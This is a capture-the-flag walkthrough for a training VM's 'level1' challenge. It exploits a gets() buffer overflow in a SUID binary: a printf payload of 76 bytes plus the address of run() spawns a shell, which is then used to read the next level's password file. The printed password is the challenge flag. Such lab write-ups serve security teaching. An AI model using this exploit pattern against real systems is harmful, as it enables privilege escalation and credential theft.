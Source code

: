 # Level 1 Walkthrough

1. **List the contents of the home directory**

	```bash
	ls -l
	```

	Output shows a SUID binary owned by `level2`:

	```
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	```

2. **Test the binary**

	```bash
	./level1
	```

	It waits for the input.

3. **Transfer the binary locally**

	```bash
	scp -P 4242 level1@<vm-ip>:/home/user/level1/level1 .
	```

4. **Analyze with Ghidra**

	Main vulnerability:

	```c
	void run() {
		fwrite("Good... Wait what?\n", 1, 0x13, stdout);
		system("/bin/sh");
	}

	void main() {
		char buffer[76];
		gets(buffer);
	}
	```

	Vulnerability: `gets()` is unsafe and allows buffer overflow. Goal is to overwrite the return address to call `run()`.

5. **Find address of `run()` with GDB**

	```bash
	gdb level1
	(gdb) disas run
	```

	Example output:

	```
	0x08048444 <+0>: ...
	```

	Save this address (e.g., `0x08048444`).

6. **Build exploit payload**

	* Fill buffer with 76 bytes
	* Append the address of `run()` (in little-endian)

	```bash
	(printf 'A%.0s' {1..76}; printf '\x44\x84\x04\x08\n'; cat) | ./level1
	```

7. **Try typing**

	```bash
	whoami
	```

8. **Read the password**

	```bash
	cat /home/user/level2/.pass
	```

	Output:

	```
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```

